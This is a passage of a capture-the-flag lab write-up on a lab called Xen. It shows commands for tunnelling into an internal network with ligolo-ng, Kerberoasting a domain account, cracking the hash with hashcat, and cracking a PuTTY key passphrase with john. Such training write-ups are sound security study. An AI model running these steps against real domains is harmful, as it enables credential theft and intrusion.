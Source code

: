 I used ligolo-ng to set up a tunnel into the internal domain.
```bash
sudo ip tuntap add user sz mode tun ligolo && sudo ip link set ligolo up && sudo ip route add 172.16.249.0/24 dev ligolo
sudo ./proxy -selfcert
tunnel_start --tun ligolo
```
![](https://photos.squarezero.dev/file/abir-images/xen/25.png)


## Kerberoast
Using a domain-authenticated account, I performed a Kerberoasting attack and retrieved a hash for ***mturner***. However, due to a time discrepancy between my local machine and the Domain Controller, I was initially unable to obtain the hash
`GetUserSPNs.py -dc-ip 172.16.249.200 htb.local/pmorgan -request -save -outputfile kerber.txt`
![](https://photos.squarezero.dev/file/abir-images/xen/26.png)

I synchronized my system time with the Domain Controller and successfully retrieved the hash.
`sudo ntpdate 172.16.249.200`
![](https://photos.squarezero.dev/file/abir-images/xen/27.png)

Cracking the hash with the standard rockyou.txt wordlist failed. However, using the updated **OneRuleToRuleThemStill.rule**, I successfully cracked the password.
`hashcat -m 13100 kerber.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemStill.rule -O --status --force`
![](https://photos.squarezero.dev/file/abir-images/xen/28.png)

With the cracked credentials, I used netexec to enumerate shares and found the flag inside the Citrix share.
![](https://photos.squarezero.dev/file/abir-images/xen/29.png)

# Camouflage
## Putty Private Key to SSH Key
Inside the share, I found a private.ppk file, which appeared to be a PuTTY private key.
![](https://photos.squarezero.dev/file/abir-images/xen/30.png)

I extracted the key's hash with putty2john and cracked it using a wordlist generated by [kwprocess](https://github.com/hashcat/kwprocessor).
```bash
# Hash extraction
putty2john private.ppk > hash.txt

# Wordlist Generation
./kwp basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > ~/Documents/xen/pass.txt

# Decryption
john --wordlist=../pass.txt hash.txt

```
![](https://photos.squarezero.dev/file/abir-images/xen/31.png)
